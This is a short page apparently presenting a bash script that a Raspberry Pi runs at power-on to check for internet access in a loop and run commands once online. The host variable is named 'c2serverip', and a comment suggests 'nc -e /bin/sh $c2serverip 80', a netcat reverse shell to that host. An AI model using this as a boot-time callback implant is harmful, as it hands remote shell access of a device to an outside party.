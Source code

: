 
# An Easy way to check if you have access to the internet at all time.

This infinite loop can be added to your rasberryPi to run once the PI is powered On.   
It keeps checking if it is connected, and as it finds internet, it run some predefined commands.

This can run as a standalone code or part of another code.

```bash
#!/bin/bash
connection="offline"
c2serverip=8.8.8.8
retry=5

while true; do
ping -c 1 $c2serverip 2>&1 >/dev/null

if [ $? -eq 0 ]
then
        if [ $connection == "offline" ]
        then
                connection="online"
                echo "PUT your code here"
		#Put any code here to run once you are online.
        # e.g.
        #nc -e /bin/sh $c2serverip 80 
        else
                echo "already online retring in "$retry "seconds"
                sleep $retry
        fi

else
        echo "we are offline"
        connection="offline"
fi
done
```